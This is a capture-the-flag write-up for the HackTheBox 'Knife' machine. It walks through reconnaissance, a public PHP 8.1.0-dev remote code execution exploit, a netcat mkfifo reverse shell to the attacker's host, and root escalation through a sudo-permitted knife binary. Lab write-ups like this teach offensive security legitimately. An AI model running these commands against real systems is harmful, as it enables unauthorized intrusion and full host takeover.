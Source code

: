```yaml
---
title: HackTheBox[KNIFE]
author: Anurag M
date: 2021-08-28 14:30:00 +0800
categories: [HackTheBox]
tags: [ "hackthebox", "sudo", "knife", "php" ]
---
```


![knife](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/knife.png)

## About The Machine

| Name | OS | Difficulty | Creator |
|------|----|------------|---------|
| [Knife](https://www.hackthebox.eu/home/machines/profile/347)  | Linux | Easy | [MrKN16H7](https://www.hackthebox.eu/home/users/profile/98767) |

| Blood | User |
|-------|------|
| User | [JKR](https://www.hackthebox.eu/home/users/profile/77141) |
| Root | [JKR](https://www.hackthebox.eu/home/users/profile/77141) |

## Reconnaissance
### Nmap
```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $nmap -A -v 10.10.10.242                                                                           
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the Nmap scan, we can see that 2 ports are open. Port 22 and 80, which are standard SSH, HTTP ports respectively. Port 22 ie, SSH port needs a username and password, we do not have that (assuming brute force is not an option).
Port 80 is for web applications. We can find something interesting in port 80, HTTP methods.
You can read more about OPTIONS method [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS)

Since this is related to HTTP methods, we can use the `curl` command-line program to issue an OPTION request.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $curl -X OPTIONS http://10.10.10.242 -i
HTTP/1.1 200 OK
Date: Mon, 24 May 2021 00:20:43 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
```
We have an interesting information for `X-Powered-By`

`X-Powered-By: PHP/8.1.0-dev`

We have an impressive PHP bug, a quick reserch on google, we could find that it is vulnerable to Remote Code Execution. The exploit is availble in [exploit db](https://www.exploit-db.com/).

Download the [Exploit](https://www.exploit-db.com/exploits/49933)

![img](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/exploit.png)

## Gaining foothold

Let's use the exploit. It will ask us for the target URL, as we append the target URL in the exploit, we will get shell as user.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)
```
We do not have a stable shell. Let's take a reliable reverse shell.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 4444 >/tmp/f
```

Start netcat listener on the specified port, we get a reliable reverse shell. Upgrade to a stable shell.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.242] 48310
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("bin/bash")'
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ 
```
we can find the user flag under the directory `/home/james`

```bash
james@knife:~$ pwd
pwd
/home/james
james@knife:~$ ls
ls
user.txt
james@knife:~$ 
```

## Privilege Escalation

Let's move forward, checking sudo rights we can find that user `james` is allowed to run /usr/bin/knife as root.
```bash
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:~$ 
```
Let's see what [gtfobins](https://gtfobins.github.io) have to say about `knife`

![img](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/knife-gtfobin.png)

Let's get the root shell

```bash
james@knife:~$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'                               
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
# id
id
uid=0(root) gid=0(root) groups=0(root)
# 
```
Root flag can be found under the directory `/root`

```bash
# cd /root
cd /root
# ls
ls
delete.sh  root.txt  snap
# 
```

## Resources

| Topic | Url |
|-------|-----|
| HTTP OPTION Methods | [Click here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS) |
| Exploit | [Click here](https://www.exploit-db.com/exploits/49933) |
| GTFOBins-knife | [Click here](https://gtfobins.github.io/gtfobins/knife/#sudo) |
